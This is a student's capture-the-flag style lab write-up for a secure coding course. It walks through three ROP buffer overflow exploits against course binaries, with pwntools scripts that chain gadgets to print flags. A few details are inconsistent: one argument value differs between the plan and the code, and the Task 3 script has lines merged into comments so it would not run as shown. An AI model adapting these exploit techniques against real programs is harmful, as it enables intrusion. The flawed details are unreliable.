Artem Peychev  
CYBR437: Secure Coding  
Due: 11/11/2026


## Lab 7: BufferOverflows using ROP 


### Task 1 

I began by using the `file` command allowing me to view task1's binary format information. The task1 executable is a 32 bit ELF executable compiled for x86 systems. It uses LSB or Least Significant Byte first also known as little-endian which lets me know to use little-endian when performing a bufferoverflow. 

Next, I checked what security mechanisms are in place for task1 executable using the `checksec` command. The Stack Canary and PIE are disabled, NX is enabled, and RELRO is partially enabled. No FORTIFY protected was detected.




After running pwndbg, I wanted to what functions are inside task1. I discovered some interesting functions.

```bash
0x08049196  breach_firewall
0x080491ca  access_mainframe
0x08049214  login
0x0804927c  main
```

  



First started to look inside main(). I can see right away that the caller main is calling the callee function login(). But I also noticed before login is called there is a puts@plt call that is used to print a string. To find out what is it printing, I set a breakpoint `break *0x0804929f`, the instruction just before `call puts`. 

```
break *0x0804929f
run
```



Nothing too interesting just a message being printed that said, `Welcome to Task 1`.




Since main is calling login(), I decided to `disass login` whch revealed the following flow: after printing "Enter credentials" with puts, the program calls scanf at <+50> where the buffer address is computed using `lea eax, [ebp-0x48]` at <+39>. The %s which has no field width checking, a classic buffer overflow. Since the buffer begins at [ebp-0x48] or 72 bytes and the EIP sits at [ebp+4] that means the payload for the overflow would be 76 bytes (0x48 for buffer plus 4 bytes for saved EBP) which is enough to overwrite the return address and gain control of the EIP when login finishes executing.

Inide login, the scanf call uses a buffer located at `[ebp-0x48]` and since %s has no limit width this allows it to be vulnerable to a buffer overflow. The buffer starts exactly 72 bytes `[ebp-0x48]` below the EBP register (see screenshot below). EBP takes 4 bytes at `[ebp]` and the return address EIP sits right above it at `[ebp+4]. In order to take advantage of the buffer overflow and highjack the control flow of the program I need to overwrite the EIP which needs exactly 76 bytes (72 bytes for the buffer and 4 bytes for the EBP). So whatever address I write after those 76 bytes will overwrite the EIP and will be executed after login hits ret.






Using access_mainframe's memory address (see screenshot above), I wrote a python script using pwntools module to send 76 bytes of padding followed by p32(0x080491ca) to the program in order to overwrite the EIP. When login() returns it will jump to access_mainframe function.

Note: p32(0x0491ca) sends the address in little-endian as raw bytes

When I ran the script, it did successfully jump t access_mainframe but instead of success message I got "Access Denied" saying that the firewall is active. This told me that there is some logic inside mainframe function that I need to understand. So I decided to disasseble access_mainframe().



The line `test edx, edx` sets the CPU Zero Flag based on the variables value. Then jne or jump if not equal works only when the variable is not a zero.

This means if variable = 1 it will grant access but if variable = 0 it will deny access. Since I got denied access the variable must have been set to 0.

At this point I wasn't sure how I am going to set it to 1. Next, I decided to `disass breach_firewall`.



At <+36> the `mov DWORD PTR [ebx+0x28], 0x1` writes 1 to the global variable, the same global variable that access_mainframe checks. This is perfect because I need the global variable that controls the firewall check to be set to 1.

So what I can do is use a ROP chain on the buffer overflow I discovered: first call breach_firewall, which sets the firewall variable to 1, then call access_mainframe, which checks the same variable. This time it will be set to 1, flipping the logic and (hopefully) giving me the flag.

Next, I created a Python script that sends 76 junk bytes to reach the EIP, then overwrites it with breach_firewall's memory address followed by access_mainframe's address.

Here the the full python code.

```python
from pwn import *

# Start program
io = process('./task1')

# Send string to overflow buffer
io.sendlineafter(b':', b'A' * 76 + p32(0x08049196) + p32(0x080491ca))

# catch shell 
# io.interactive()

# Close the connection
io.close()

```




When I ran the final exploit, it successfully chained from breach_firewall() into access_mainframe() and printed the flag. The program did not exit cleanly it terminated with a SIGSEGV (segmentation fault) but that didn't matter, since my goal was only to change the firewall logic and capture the flag, not to exit cleanly.

Captured Flag: `FLAG{Mainframe access granted}`

Game over.


### Task 2

Moving on to task2, the biggest difference I see is that the ELF executable is compiled in 64 bits which is important since it will affect how I interpret the assembly instructions. As far the checksec, stack canary and PIE are both off allowing me to perform buffer overflows and use hardcoded memory addresses in my payload when performing the exploitation.



From pwndbg, using `info registers` to show functions available in task2 executable.

```bash
0x0000000000401146  login
0x0000000000401184  create_account
0x00000000004011cb  main
```




Disassembling main shows that a call to puts then calls create_account function.




Disassembling create_account reveals a buffer overflow.

```bash
0x0000000000401188 <+4>:     sub    rsp,0x10
0x0000000000401198 <+20>:    lea    rax,[rbp-0x10]
0x00000000004011ab <+39>:    call   0x401050 <__isoc99_scanf@plt>
```

The function allocates 0x10 (16 bytes) stack space. The input buffer located exactly 16 bytes below the RBP (base pointer). The third line shows a call to scanf which uses %s without length checking allowing the input to be written past the buffer.

To reach the saved RIP (return address), I must calculate the distance from the buffer to the saved RIP, since this is 64 bit executable the saved RIP is 8 bytes long. To reach RIP, I have to fill the 16 byte buffer plus the 8 byte RBP. So, my offset is exactly 24 bytes until I reach the RIP.




Now that I know my offset to overwrite the buffer, I need to disassemble login to find out the logic. Login takes two arguments which are passed to two registers EDI and ESI and stores them on the stack at `[rbp-0x4]` and `[rbp-0x8]`. Then it checks if first argument equals 0xbead1001 and second 0xcafe0110. If either one fails, jne or jump if not equals to <+46> will occur giving a login failure message. If both match, a success message is then printed. In order to get the flag I have to call the login with the following parameters:

`login(0xbead1001, 0xcafe0110)`





Since this is 64 bit executable, I can't just put the login arguments on the stack like in 32 bit. In 64 bit, the arguments are read directly from the registers RDI and RSI and not from the stack. So what I need to do is use `gadgets` to load the values into the registers before jumping the login. My payload will look something like this:

1. 24 bytes of padding to reach RIP
2. Address of pop rdi; ret gadet
3. Value of 0xbead1001
4. Address of pop rsi; ret gadget
5. Value of 0xcafe0100
6. Address of login (0x401146)


To load the required values into RDI and RSI, I used pwndbg's rop command to search the task2 executable for the gadgets that I need.



Now that I got the offset and the gadgets, I built the ROP chain, Here is the code for the python script that I wrote:

```python
from pwn import *

# address of gadgets
pop_rdi = 0x401253
pop_rsi = 0x401251 # this one is pop rsi;pop r15;ret
login = 0x0000000000401146

# arguments for login()
first = 0xbead1001
second = 0xcafe0110
junk_for_r15 = 0x4545454545454545

# payload offset 24 bytes
payload = b'A' * 24

payload = payload + p64(pop_rdi) # address of pop rdi;ret
payload = payload + p64(first) # value 0xbead1001
payload = payload + p64(pop_rsi)
payload = payload + p64(second)
payload = payload + p64(junk_for_r15)
payload = payload + p64(login) # jump to login() since rdi+rsi are set

# Start program
io = process('./task2')

# Send string to overflow buffer
io.sendline(payload)

# catch shell
io.interactive()

# Close the connection
io.close()
```

When I ran the exploit, it successfully satisfied both compare checks in login function and printed the flag. The program did terminate with SIGSEGV after printing the flag because I did not add a exit to the end of the rop chain but the goal to capture the flag was a success.





### Task 3

For task3, I ran both `file` and `checksec` against task3 executable. Task3 is a 64 bit binary in LSB little endian with PIE and canary protection disabled.




I launched `pwndbg task3` and ran `info functions` to discover functions within the file. Here is the list of functions I am interested in:

```bash
0x0000000000401146  gravity_assist
0x0000000000401163  escape_velocity
0x00000000004011b0  login
0x00000000004011df  main
```



Output of `dissas main` shows that it prints a welcome message using puts then calls login() without parameters. Disassembling login reveals a buffer overflow vulnerability. Function allocated 0x20 (32 bytes) for stack space with instruction `sub rsp, 0x20`. Then `lea rax, [rbp-0x20]` for the buffer size of 32 bytes below the RBP. Then scanf is called with %s which does not enforce a length check which allows writing pass the 32 byte buffer.

To calculate the offset, I added 32 byte buffer to the 8 byte saved RBP, resulting the total offset of 40 bytes. Writing beyond the 40 bytes allows me to overwrite the RIP and control the next execution once login returns.




Disassembling gravity_assist, prints a message and sets a variable to 1 at this line:

`DWORD PTR [rip+0x2ee4],0x1` 

In escape_velocity, checks if gravity_assisted is non zero, if it is zero it prints a failure and jumps to the end. This means I must call gravity_assist first to set that global varible to 1. If the global variable is set then it checks the first argument at EDI, `cmp DWORD PTR [rbp-0x4], 0xdeadbeef`. If the argument is deadbeef it will print the flag otherwise it calls abort().






The plan for the ROP chain needs to accomplish three things in this order:

1. Offset 40 bytes to reach RIP 
2. gravity_assist (0x401146) to set varible to 1
3. Gadget: pop rdi; ret (0x401263)
4. 0xdeadbeef goes into RDI register
5. escape_velocity (0x401163): See's the global variable 1, then see's RDI = 0xdeadbeef





Following the ROP chain order from above here is the python code of the entire ROP chain:

```python
from pwn import *

# addresses of gadgets
gravity_assist = 0x401146
pop_rdi = 0x401263
esc_vel = 0x401163


# escape_veloctiy arg                                                        arg = 0xdeadbeef


# payload offset 40 bytes
payload = b'A' * 40
payload = payload + p64(gravity_assist) # set global var to 1                payload = payload + p64(pop_rdi) # load gadget or RDI
payload = payload + p64(arg) # value of RDI 0xdeadbeef
payload = payload + p64(esc_vel) # call escape_velocity

# Start program
io = process('./task3')

# Send string to overflow buffer
io.sendlineafter(b'Enter trajectory data:', payload)

# catch shell
io.interactive()

# Close the connection
io.close()
```

Then I ran the exploit and the program successfully printed the flag. Similiar to previous tasks, the program terminated with SIGSEGV because after printing the flag I did not provide a call to cleanly exit. Since the goal of the lab was to obtain the flag, objective is complete.

Successful exploitation shown below. 





